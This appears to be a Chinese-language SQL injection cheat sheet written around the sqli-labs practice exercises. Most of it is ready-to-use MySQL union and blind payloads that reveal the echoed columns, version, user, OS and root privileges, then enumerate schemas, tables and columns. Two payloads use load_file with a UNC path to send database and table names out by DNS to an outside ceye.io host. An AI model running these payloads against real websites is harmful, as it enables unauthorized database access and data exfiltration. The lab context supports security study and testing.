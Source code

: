 #### 判断字段回显位置

在链接后面添加语句`【 union select 1,2,3,4,5,6,7,8,9,10,11#】`进行联合查询（联合查询时记得把前面的查询为空）来暴露可查询的字段号。 

#### 判断数据库注入

利用内置函数暴数据库信息 
version()版本；database()数据库；user()用户； 
不用猜解可用字段暴数据库信息(有些网站不适用): 
and 1=2 union all select version() 
and 1=2 union all select database() 
and 1=2 union all select user() 
操作系统信息：and 1=2 union all select @@global.version_compile_os from mysql.user 
数据库权限： 
and ord(mid(user(),1,1))=114 返回正常说明为root 

#### 查找数据库名

- GET：IP/Less-1/?id=100' union select 1,(select database()),3--+

- POST：union select 1,(select group_concat(schema_name) from information_schema.schemata),3--+

- 查看数据库长度length（） and length(database())>10--+

- 查看数据库名字mid（）或者left    

  - mid (string，start，length）返回指定的字符串从指定位置开始（可以用来猜数据库名 ） and mid(database(),1,1)>'a'

  - left (string,lenth)  返回最左边指定的字符数

    and left(database(),1)>'a'  (猜名字)

- 将查到的库名放到同一个字符串

  - select GROUP_CONCAT(schema_name) from information_schema.schemata

- 查到数单个据库名发送到ceye

  - union select 1,(select load_file(concat('\\\\',substr((select schema_name from information_schema.schemata  limit 1),1,41),'.mysql.ip.port.38ljf2.ceye.io\\abc')))--+

#### 查找数据表

- union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security') ,3 

- 将单个表名发送到ceye

  uname=1') union select 3,(select load_file(concat('\\\\',substr((select table_name from information_schema.tables where table_schema ='security'  limit 1),1,41),'.mysql.ip.port.38ljf2.ceye.io\\abc')))--+

#### 查找数据表中所有字段（列）

- #### 127.0.0.1/Less-3/?id=100') union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security') --+

- 获取内容
